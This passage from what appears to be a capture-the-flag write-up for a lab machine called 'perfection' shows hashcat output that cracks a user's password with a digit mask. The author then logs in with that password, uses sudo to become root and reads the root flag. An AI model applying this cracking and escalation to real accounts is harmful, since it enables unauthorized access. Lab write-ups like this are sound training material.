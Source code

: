 ```bash
Hash.Target......: abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a3019934...39023f
Time.Started.....: Sun Apr  7 14:36:35 2024 (1 min, 39 secs)
Time.Estimated...: Sun Apr  7 14:38:14 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Mask.......: susan_nasus_?d?d?d?d?d?d?d?d?d [21]
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  3347.2 kH/s (1.04ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 324562944/1000000000 (32.46%)
Rejected.........: 0/324562944 (0.00%)
Restore.Point....: 324556800/1000000000 (32.46%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: susan_nasus_126824210 -> susan_nasus_927935210
Hardware.Mon.#1..: Util: 64%

Started: Sun Apr  7 14:36:34 2024
Stopped: Sun Apr  7 14:38:16 2024
```

I tried to `sudo` with the found password. I worked, and I could run anything I wanted. I used that to `su` as root and read the flag.

```bash
susan@perfection:~$ sudo -l
[sudo] password for susan:
Matching Defaults entries for susan on perfection:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User susan may run the following commands on perfection:
    (ALL : ALL) ALL

susan@perfection:~$ sudo su -

root@perfection:~# cat /root/root.txt
REDACTED
```